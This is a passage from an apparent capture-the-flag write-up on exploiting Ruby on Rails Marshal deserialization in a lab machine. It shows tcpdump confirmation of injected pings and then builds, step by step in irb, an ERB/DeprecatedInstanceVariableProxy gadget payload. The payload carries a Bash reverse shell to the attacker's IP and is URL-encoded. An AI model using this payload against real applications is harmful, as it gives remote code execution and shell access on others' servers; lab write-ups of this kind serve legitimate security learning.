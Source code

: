 When I send that on, the page returns a 500 error.

However, if I refresh `/articles`, the page shows the ping results:

![image-20201108070903903](https://0xdfimages.gitlab.io/img/image-20201108070903903.png)

And I see the ping at `tcpdump` listening on my host:

```

root@kali# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
07:05:54.834195 IP 10.10.10.211 > 10.10.14.19: ICMP echo request, id 1333, seq 1, length 64
07:05:54.834289 IP 10.10.14.19 > 10.10.10.211: ICMP echo reply, id 1333, seq 1, length 64
07:05:54.850773 IP 10.10.10.211 > 10.10.14.19: ICMP echo request, id 1334, seq 1, length 64
07:05:54.850862 IP 10.10.14.19 > 10.10.10.211: ICMP echo reply, id 1334, seq 1, length 64
07:05:54.867800 IP 10.10.10.211 > 10.10.14.19: ICMP echo request, id 1335, seq 1, length 64
07:05:54.867929 IP 10.10.14.19 > 10.10.10.211: ICMP echo reply, id 1335, seq 1, length 64

```

It’s interesting that it pings three times given that I used `-c 1`, but perhaps it is executed three times.

### Shell

To get a shell, I’ll use the same process, this time with `code` being a Bash reverse shell:

```

irb(main):010:0> code = '`bash -c "bash -i >& /dev/tcp/10.10.14.19/443 0>&1"`'
=> "`bash -c \"bash -i >& /dev/tcp/10.10.14.19/443 0>&1\"`"
irb(main):011:0> erb = ERB.allocate
=> #<ERB:0x00007f2e605598e0>
irb(main):012:0> erb.instance_variable_set :@src, code
=> "`bash -c \"bash -i >& /dev/tcp/10.10.14.19/443 0>&1\"`"
irb(main):013:0> erb.instance_variable_set :@filename, "1"
=> "1"
irb(main):014:0> erb.instance_variable_set :@lineno, 1
=> 1
irb(main):015:0> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
=> "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\"9`bash -c \"bash -i >& /dev/tcp/10.10.14.19/443 0>&1\"`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:\f@linenoi\x06:\f@method:\vresult:\t@varI\"\f@result\x06;\tT:\x10@deprecatorIu:\x1FActiveSupport::Deprecation\x00\x06;\tT"
irb(main):016:0> puts URI.encode_www_form(payload: payload)
payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%229%60bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.19%2F443+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
=> nil

```
